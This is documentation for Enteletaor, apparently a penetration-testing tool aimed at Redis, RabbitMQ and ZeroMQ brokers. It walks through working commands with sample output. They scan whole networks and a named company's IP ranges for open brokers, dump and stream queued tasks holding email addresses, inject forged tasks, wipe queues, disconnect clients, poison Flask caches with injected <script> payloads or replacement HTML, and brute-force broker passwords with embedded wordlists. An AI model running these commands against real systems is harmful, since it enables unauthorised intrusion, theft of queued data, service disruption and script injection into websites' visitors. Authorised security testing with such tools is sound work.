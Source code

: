 Advanced usage
==============

Enteleteaor implements some attacks and has many options to interact with different brokers:

    - Redis
    - RabbitMQ (of AMQP compabible)
    - ZeroMQ

The tool also implements some specifics attacks for Redis server. This document try to collect this information.

There are the 3 kind actions implemented:

    - Scanning
    - Redis actions
    - Tasks actions

Scanner
-------

Enteleteaor implements a scanner that detects open brokers. The scanner is implemented in pure python, with no external dependecies, like ``nmap``.

The reason to implement a native scanner is because in ``nmap`` v7 no all scripts that detects open services works.

.. note::

    You also can pass as target a domain, not only and IP.

Custom ports
++++++++++++

As you can read in :doc:`quickstart` document, you can scan a single host or a network. Syntax is nmap-like.

You can specify other ports that enteleteaor default, using ``-p`` option:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10/16 -p 5550,5551

Parallel scanning
+++++++++++++++++

By default, enteleteaor runs 20 concurrent scanning. Internally it's implemented with *greenlets* threads. It means that are not "real" Python threads. You can think about greenlets thread as a lightweight version of threads.

I recommend to use 40 concurrent scanning threads. Don't worry for the overload of your system, green threads will made this possible without a hungry CPU process.

To change concurrency, we use ``-c`` option:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10/24 -c 40

Saving results
++++++++++++++

Enteleteaor can export scan results as a JSON format, using ``--output`` option:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10 --output results

Or:

.. code-block:: bash

    # enteleteaor scan -t 10.10.0.10 --output results.json

.. note::

    If you don't indicate the file extension, enteleteaor will add it for you.

Company lookup
++++++++++++++

This is a bit strange option. Typing ``-o`` enteleteaor will try to lookup the company name in RIPE and get all IP ranges registered for it, adding then to scanner.

For example, if you try to get scan ``google.com`` it will 1465 new host:

.. code-block:: bash

    # enteletaor -vvvv scan -t google.com -o

    [ * ] Starting Enteletaor execution
    [ * ]   -> Detected registered network '80.239.142.192/26'. Added for scan.
    [ * ]   -> Detected registered network '213.242.89.64/26'. Added for scan.
    [ * ]   -> Detected registered network '92.45.86.16/28'. Added for scan.
    [ * ]   -> Detected registered network '212.179.82.48/28'. Added for scan.
    [ * ]   -> Detected registered network '217.163.1.64/26'. Added for scan.
    [ * ]   -> Detected registered network '80.239.174.64/26'. Added for scan.
    [ * ]   -> Detected registered network '213.253.9.128/26'. Added for scan.
    [ * ]   -> Detected registered network '46.108.1.128/26'. Added for scan.
    [ * ]   -> Detected registered network '213.248.112.64/26'. Added for scan.
    [ * ]   -> Detected registered network '46.61.155.0/24'. Added for scan.
    [ * ]   -> Detected registered network '95.167.107.32/27'. Added for scan.
    [ * ]   -> Detected registered network '195.50.84.192/26'. Added for scan.
    [ * ]   -> Detected registered network '80.239.168.192/26'. Added for scan.
    [ * ]   -> Detected registered network '193.120.166.64/26'. Added for scan.
    [ * ]   -> Detected registered network '213.155.151.128/26'. Added for scan.
    [ * ]   -> Detected registered network '194.44.4.0/24'. Added for scan.
    [ * ]   -> Detected registered network '80.239.229.192/26'. Added for scan.
    [ * ]   -> Detected registered network '213.242.93.192/26'. Added for scan.
    [ * ]   -> Detected registered network '195.100.224.112/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.35.32/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.165.0/28'. Added for scan.
    [ * ]   -> Detected registered network '89.175.162.48/29'. Added for scan.
    [ * ]   - Number of targets to analyze: 1465
    [ * ]   - Starting scan
     ...

Tasks
-----

Currently you can do 4 sub-actions for ``tasks`` command.

All of these actions are available **only if broker is open**. An open broker means that not credential are needed for connect to.

.. note::

    But.. **what's a task?** Oks, no problem, let's see:

    When we use a process manager to handle background tasks they use an external communication system. This communication system usually is a broker.

    The processes managers need this communication systems to send the information to the runner. Each runner is waiting for new information to process, and the broker permit delegate the exchange problems.

    So, we call this in information a ``pending task``. This ``task`` is really some information waiting in the broker to be send to the runner.

Listing remote tasks
++++++++++++++++++++

Basic usage
___________

If there are pending tasks in broker queue, we can analyze them. Enteleteaor allow us to list all tasks found. Although there is more than one task of each type in queue, only the task definition is displayed:

.. code-block:: bash

    # enteleteaor -v tasks list-tasks -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   - Remote process found:
    [ * ]      -> tasks.sum (param_0:int, param_1:int)
    [ * ]      -> tasks.send_mail (param_0:str, param_1:str, param_2:str)
    [ * ] Done!

We can see that broker has 2 task definition stored:

    - tasks.sum
    - tasks.send_mail

Export Template
_______________

Enteleteaor also permit inject new tasks to broker (see bellow). The way to inject them is to pass as input a JSON file with the information. Write this file must be a bit hard. To help us, enteleteaor can export a template.

With this template, we only must fill the appropriate fields:

.. code-block:: bash
    :linenos:
    :emphasize-lines: 8

    # enteleteaor -v tasks list-task -t 10.10.0.10 -T my_template -F tasks.send_mail
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   - Remote process found:
    [ * ]      -> tasks.sum (param_0:int, param_1:int)
    [ * ]      -> tasks.send_mail (param_0:str, param_1:str, param_2:str)
    [ * ]   - Building template...
    [ * ]   - Template saved at: '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/my_template.json'
    [ * ] Done!

    # cat my_template.json
    [{"parameters": [{"param_position": 0, "param_value": null, "param_type": "str"}, {"param_position": 1, "param_value": null, "param_type": "str"}, {"param_position": 2, "param_value": null, "param_type": "str"}], "function": "tasks.send_mail"}]

In this example only export the function ``tasks.send_mail``.

Removing tasks
++++++++++++++

We also can remove **all** pending task from the broker queue. It's so simple:

.. code-block:: bash

    # enteleteaor tasks remove -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]    - All tasks removed from '10.10.0.10'
    [ * ] Done!

Dumping tasks content
+++++++++++++++++++++

Basic usage
___________

We can dump the content of tasks simply using ``raw-dump` sub-command:

.. code-block:: bash

    # enteleteaor tasks raw-dump -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.sum'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: 1
    [ * ]       -> P1: 0
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: marquerite@cordell.com
    [ * ]       -> P1: Can You Afford?
    [ * ]       -> P2: Axis alliance with Italy and Japan.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: amie@cordell.com
    [ * ]       -> P1: Read your review for John Mulaney You're missing out on points Not Cool, Guys DO NOT Commit These Instagram Atrocities
    [ * ]       -> P2: Molotov–Ribbentrop Pact of August 1939, Germany and subsequent declarations of war in Europe concluded with an invasion of Poland by Germany and the subsequent German unconditional surrender on 8 May 1945.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: willard@cordell.com
    [ * ]       -> P1: Wish What are our customers saying?
    [ * ]       -> P2: In June 1941, the European Axis powers and the coalition of the world.
    [ * ]     -> No more messages from server. Exiting...
    [ * ] Done!

Streaming mode
______________

Some times we could want listen new messages available in broker in real time . If we use ``--streaming`` option, enteleteaor will wait for new messages:

.. code-block:: bash
    :linenos:
    :emphasize-lines: 17-20

    # enteleteaor tasks raw-dump -t 10.10.0.10 --streaming
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with server...
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: aletha@cordell.com
    [ * ]       -> P1: Best of Groupon: The Deals That Make Us Proud (Unlike Our Nephew, Steve) Happy Birthday Lindsay - Surprise Inside!
    [ * ]       -> P2: Berlin by Soviet and Polish troops and the refusal of Japan to surrender under its terms, the United States dropped atomic bombs on the Eastern Front, the Allied invasion of Poland by Germany and the Axis.
    [ * ]   Found process information:
    [ * ]   -  Remote tasks name: 'tasks.send_mail'
    [ * ]   -  Input parameters:
    [ * ]       -> P0: amie@cordell.com
    [ * ]       -> P1: Read your review for John Mulaney You're missing out on points Not Cool, Guys DO NOT Commit These Instagram Atrocities
    [ * ]       -> P2: Molotov–Ribbentrop Pact of August 1939, Germany and subsequent declarations of war in Europe concluded with an invasion of Poland by Germany and the subsequent German unconditional surrender on 8 May 1945.
    [ * ]       -> P2: In June 1941, the European Axis powers and the coalition of the world.
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..
    [ * ]   -> No more messages from server. Waiting for 4 seconds and try again..

Output file
___________

We can export results to CSV file using ``--output`` option. The reason to choose this format is because it permit real-time reading. In other words:

Imagine you want to put enteleteaor in streaming mode and, at the same time, put another process to read the information from export file, CSV allow this because each line is independent of others.

Enteleteaor writes in CSV as *append* mode, so it will not overwriting old file content:

.. code-block:: bash
        
    # enteleteaor tasks raw-dump -t 10.10.0.10 --streaming --output dumped_server_file

And, in other console, we can write:

.. code-block:: bash

    # tail -f dumped_server_file.csv

.. note::

    If not extension provided, enteleteaor automatically add .csv

Inject new tasks
++++++++++++++++

Finally, enteleteaor permit us to inject new tasks to the broker flow. The injection only accept one parameter: ``-f`` (``--function-file``).

This parameter need a JSON as input file with the function parameters. Do you remember `Export template`_ option of the list-tasks sub-command?

One we have the JSON file, we can inject the new process:

.. code-block:: bash

    # enteleteaor tasks inject -f my_template.json
    [ * ] Starting Enteletaor execution
    [ * ]   - Building process...
    [ * ]   - Trying to connect with server...
    [ * ]   - Sending processes to '10.10.0.10'
    [ * ]       1) tasks.send_mail
    [ * ] Done!


Redis
-----

Redis is a power full and versatile server. It can act as:

  - Key-value database
  - Broker
  - Cache
  - ...

So, it has it own command and actions:

Getting info
++++++++++++

This action was explained in :doc:`quickstart` document.

Listing connected users
+++++++++++++++++++++++

This action was explained in :doc:`quickstart` document.

Disconnecting users
+++++++++++++++++++

We not only can show all connected users, also can disconnect them. To do that we can use the sub-command ``disconnect``.

Disconnect one user
___________________

This command need as input the client to disconnect. Client must be as format: IP:PORT, as ``connected`` command displays.

.. code-block:: bash
    :linenos:
    :emphasize-lines: 7,13

    # enteleteaor redis connected -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Connected users to '10.10.0.10':
    [ * ]   - 10.10.0.2:52748 (DB: 0)
    [ * ]   - 10.10.0.2:52749 (DB: 0)
    [ * ]   - 10.10.0.2:52752 (DB: 0)
    [ * ]   - 127.0.0.1:42262 (DB: 0)
    [ * ]   - 10.10.0.2:51200 (DB: 0)
    [ * ] Done!

    # enteleteaor redis disconnect -t 10.10.0.10 -c 127.0.0.1:42262
    [ * ] Starting Enteletaor execution
    [ * ]   - Client '127.0.0.1:42264' was disconnected
    [ * ] Done!

Disconnect all users
____________________

If you want to disconnect all connected users, enteleteaor has the shortcut ``--all``:

.. code-block:: bash

    # enteleteaor redis disconnect -t 10.10.0.10 --all

Discovering DBs
+++++++++++++++

By default Redis has 16 databases, but you can add as many as you need. If the database used by the remote server is different to 0 (default database) and you need to discover them, you can use ``discover-dbs``:

.. code-block:: bash

    # enteleteaor redis discover-dbs -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Discovered '10.10.0.10' DBs at '16':
    [ * ]    - DB0 - 4 keys
    [ * ]    - DB1 - Empty
    [ * ]    - DB2 - Empty
    [ * ]    - DB3 - Empty
    [ * ]    - DB4 - Empty
    [ * ]    - DB5 - Empty
    [ * ]    - DB6 - Empty
    [ * ]    - DB7 - Empty
    [ * ]    - DB8 - Empty
    [ * ]    - DB9 - Empty
    [ * ]    - DB10 - Empty
    [ * ]    - DB11 - Empty
    [ * ]    - DB12 - Empty
    [ * ]    - DB13 - Empty
    [ * ]    - DB14 - Empty
    [ * ] Done!

Dumping information
+++++++++++++++++++

Basic usage
___________

One of more interesting thing is display information stored in redis and has the possibility to export it.

``dump`` sub-command permit that:

.. code-block:: bash

    # enteleteaor redis dump -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]     "b'unacked'":
    [ * ]     {
    [ * ]      "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'":
    [ * ]       {
    [ * ]         "content-encoding": "b'binary'"
    [ * ]         "properties":
    [ * ]          {
    [ * ]            "body_encoding": "b'base64'"
    [ * ]            "delivery_mode": "2"
    [ * ]            "delivery_info":
    [ * ]             {
    [ * ]               "priority": "0"
    [ * ]               "exchange": "b'celery'"
    [ * ]               "routing_key": "b'celery'"
    [ * ]             }
    [ * ]            "delivery_tag":
    [ * ]             {
    [ * ]            "delivery_tag": "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'"
    [ * ]          }
    [ * ]         "headers":
    [ * ]          {
    [ * ]          }
    [ * ]         "body":
    [ * ]          {
    [ * ]            "chord": "None"
    [ * ]            "retries": "0"
    [ * ]            "kwargs":
    [ * ]             {
    [ * ]             }
    [ * ]            "task": "b'tasks.send_mail'"
    [ * ]            "errbacks": "None"
    [ * ]            "taskset": "None"
    [ * ]            "timelimit": "(None, None)"
    [ * ]            "callbacks": "None"
    [ * ]            "eta": "None"
    [ * ]            "id":
    [ * ]             {
    [ * ]            "id": "b'8d772bd5-7f2c-4bef-bc74-aa582aaf0520'"
    [ * ]            "expires": "None"
    [ * ]            "utc": "True"
    [ * ]            "args": "('leatha@elidia.com', 'Guys DO NOT Commit These Instagram Atrocities 10 Engagement Tips to Gobble Over Thanksgiving Buffer has been hacked - here', 'Declaration by the Western Allies and the refusal of Japan to surrender under its terms, the United States emerged as an effort to end pre-war enmities and to create a common identity.')"
    [ * ]          }
    [ * ]         "content-type":
    [ * ]          {
    [ * ]         "content-type": "b'application/x-python-serialize'"
    [ * ]       }
    [ * ] Done!

Exporting results
_________________

Don't worry if above console output is a bit heavy, we can export results to a JSON file using ``-e`` (``--export-results``):

.. code-block:: bash

    # enteleteaor redis dump -t 10.10.0.10 -e dumped_info
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Storing information into 'results.json'
    [ * ]     "b'unacked'":
    [ * ]     {
    [ * ]      "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'":
    [ * ]       {
    [ * ]         "content-encoding": "b'binary'"
    [ * ]         "properties":
    [ * ]          {
    [ * ]            "body_encoding": "b'base64'"
    [ * ]            "delivery_mode": "2"
    [ * ]            "delivery_info":
    [ * ]             {
    [ * ]               "priority": "0"
    [ * ]               "exchange": "b'celery'"
    [ * ]               "routing_key": "b'celery'"
    [ * ]             }
    [ * ]            "delivery_tag":
    [ * ]             {
    [ * ]            "delivery_tag": "b'a3b415a9-2ce1-4386-b104-94b9a38aee73'"
    [ * ]          }
    [ * ]         "headers":
    [ * ]          {
    [ * ]          }
    [ * ]         "body":
    [ * ]          {
    [ * ]            "chord": "None"
    [ * ]            "retries": "0"
    [ * ]            "kwargs":
    [ * ]             {
    [ * ]             }
    [ * ]            "task": "b'tasks.send_mail'"
    [ * ]            "errbacks": "None"
    [ * ]            "taskset": "None"
    [ * ]            "timelimit": "(None, None)"
    [ * ]            "callbacks": "None"
    [ * ]            "eta": "None"
    [ * ]            "id":
    [ * ]             {
    [ * ]            "id": "b'8d772bd5-7f2c-4bef-bc74-aa582aaf0520'"
    [ * ]            "expires": "None"
    [ * ]            "utc": "True"
    [ * ]            "args": "('leatha@elidia.com', 'Guys DO NOT Commit These Instagram Atrocities 10 Engagement Tips to Gobble Over Thanksgiving Buffer has been hacked - here', 'Declaration by the Western Allies and the refusal of Japan to surrender under its terms, the United States emerged as an effort to end pre-war enmities and to create a common identity.')"
    [ * ]          }
    [ * ]         "content-type":
    [ * ]          {
    [ * ]         "content-type": "b'application/x-python-serialize'"
    [ * ]       }
    [ * ] Done!

.. note::

    We don't need to put the extension .json to file. If extension is missing, enteleteaor will add it.

Hide screen output
__________________

If you don't want to display information into screen (useful when Redis contains a lot of information) using ``--no-screen`` option:

.. code-block:: bash

    # enteleteaor redis dump -t 10.10.0.10 -e dumped_info --no-screen
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Storing information into 'results.json'
    [ * ] Done!

Handling cache
++++++++++++++

Redis is commonly used as a centralized cache system. We can handle this cache stored in it.

Finding cache keys
__________________

First step is find possible cache keys in Redis. Enteleteaor has the option ``--search`` that will try to find this keys:

.. code-block:: bash

    # enteleteaor redis cache -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ] Looking for caches in '10.10.0.10'...
    [ * ]   - Possible cache found in key: 'flask_cache_view//'
    [ * ] Done!

Dumping all cache keys
______________________

If we want to dump, as raw-way, possible cache keys (not only locate) we omit the option ``--search``:

.. code-block:: bash

    # enteleteaor redis cache -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Listing cache information:
    [ * ]     -> Key: 'flask_cache_view//'
    [ * ]     -> Content:
         !X<!--
        Author: WebThemez
        Author URL: http://webthemez.com
        License: Creative Commons Attribution 3.0 Unported
        License URL: http://creativecommons.org/licenses/by/3.0/
        -->
        <!doctype html>
        <!--[if IE 7 ]>    <html lang="en-gb" class="isie ie7 oldie no-js"> <![endif]-->
        <!--[if IE 8 ]>    <html lang="en-gb" class="isie ie8 oldie no-js"> <![endif]-->
        <!--[if IE 9 ]>    <html lang="en-gb" class="isie ie9 no-js"> <![endif]-->
        <!--[if (gt IE 9)|!(IE)]><!-->
        <html lang="en-en" class="no-js">
        <!--<![endif]-->
        <head>
        ...

    [ * ] Done!

Dumping specific cache key
__________________________

We can dump only an specific key:

.. code-block:: bash

    # enteleteaor redis cache -t 10.10.0.10 --cache-key "flask_cache_view//"
    [ * ] Starting Enteletaor execution
    [ * ]   - Listing cache information:
    [ * ]     -> Key: 'flask_cache_view//'
    [ * ]     -> Content:
         !X<!--
        Author: WebThemez
        Author URL: http://webthemez.com
        License: Creative Commons Attribution 3.0 Unported
        License URL: http://creativecommons.org/licenses/by/3.0/
        -->
        <!doctype html>
        <!--[if IE 7 ]>    <html lang="en-gb" class="isie ie7 oldie no-js"> <![endif]-->
        <!--[if IE 8 ]>    <html lang="en-gb" class="isie ie8 oldie no-js"> <![endif]-->
        <!--[if IE 9 ]>    <html lang="en-gb" class="isie ie9 no-js"> <![endif]-->
        <!--[if (gt IE 9)|!(IE)]><!-->
        <html lang="en-en" class="no-js">
        <!--<![endif]-->
        <head>
        ...

    [ * ] Done!

Basic cache poisoning
_____________________

Enteleteaor permit us to poison the cache. To enable the cache poisoning we need to enable it with option ``-P``.

By default, enteleteaor will try to inject an HTML <script> tag with an alert message: "You are vulnerable to broker injection".

.. code-block:: bash
        
    # enteleteaor redis cache -P -t 10.10.0.1
    [ * ] Starting Enteletaor execution
    [ * ]   - Trying to connect with redis server...
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'flask_cache_view//' at server '10.10.0.10'
    [ * ] Done!

Custom cache poisoning with
___________________________

We can replace the default behavior adding a custom script code:

**Inline**:

Using ``--payload`` option. This option need a file with the script:

.. code-block:: bash

    # enteleteaor redis cache -P -t 10.10.0.10 --payload "<script>document.write('Say cheeeeers')</script>"
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'b'flask_cache_view//'' at server '10.10.0.10'
    [ * ] Done!

**Using file**:

.. code-block:: bash

    # echo "<script>document.write('Say cheeeeers')</script>" > my_payload.txt
    # enteleteaor redis cache -P -t 10.10.0.10 --file-payload my_payload.txt
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'b'flask_cache_view//'' at server '10.10.0.10'
    [ * ] Done!

Replace cache content
_____________________

Finally, we can replace entire content of cache key using option ``--replace-html``:

.. code-block:: bash

    # echo "<html><head><title>Replaced content</title></head><body><h1>Say cheeeeers again :)</h1></body></html>" > new_html.html
    # enteleteaor redis cache -P -t 10.10.0.10 --replace-html new_html.html
    [ * ] Starting Enteletaor execution
    [ * ]   - Poisoning enabled
    [ * ]   - Poisoned cache key 'flask_cache_view//' at server '10.10.0.10'
    [ * ] Done!


Password brute forcer
---------------------

Listing wordlist
++++++++++++++++

Enteleteaor has some wordlist embedded. If you want to show them, you must write:

.. code-block:: bash

    # enteleteaor brute wordlist
    [ * ] Starting Enteletaor execution
    [ * ]   - Available wordlists:
    [ * ]     > 10_million_password_list_top_100
    [ * ]     > 10_million_password_list_top_1000
    [ * ]     > 10_million_password_list_top_10000
    [ * ]     > 10_million_password_list_top_100000
    [ * ] Done!

The wordlist names could be used as input for the password module.

Discovering passwords
+++++++++++++++++++++

We can try to discover remote passwords using enteleteaor. To do this, we need a wordlist with passwords that we want to test. If we don't have any wordlist we can use one of embedded.

Basic usage
___________

Using default options, enteleteaor se the wordlist ``10_million_password_list_top_1000``.

.. code-block:: bash

    # enteleteaor brute password -t 10.10.0.10
    [ * ] Starting Enteletaor execution
    [ * ]   - Detected 'Redis' server with 'auth'.
    [ * ]   - Starting bruteforcer using wordlist : '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/resources/wordlist/10_million_password_list_top_1000.txt'
    [ * ] Done!

.. note::

    We also can set remote server port using option ``-p``.
    
Specifying wordlist
___________________

We can set an external wordlist, with the option ``-w``.

.. code-block:: bash
        
    # enteleteaor brute password -t 10.10.0.10 -w /home/user/my_wordlist.txt

Or use a different embedded:

.. code-block:: bash

    # enteleteaor brute password -t 10.10.0.10 -w 10_million_password_list_top_100000

Setting concurrency
___________________

We also can specify the number os concurrent test we want to do, using option ``-c``.

.. code-block:: bash

    # enteleteaor brute password -t 10.10.0.10 -w 10_million_password_list_top_100000 -c 20

Setting remote user
___________________

Currently enteleteaor doesn't support brute forcer for users, so for servers that need user/password we must set the **user**, using option ``-u``:

.. code-block:: bash

    # enteleteaor brute password -t 10.10.0.10 -p 5672 -u admin
    [ * ] Starting Enteletaor execution
    [ * ]   - Detected 'RabbitMQ' server with 'auth'.
    [ * ]   - Set user to 'admin'
    [ * ]   - Starting bruteforcer using wordlist : '/Users/Dani/Documents/Projects/enteletaor/enteletaor_lib/resources/wordlist/10_million_password_list_top_1000.txt'
    [ * ] Done!
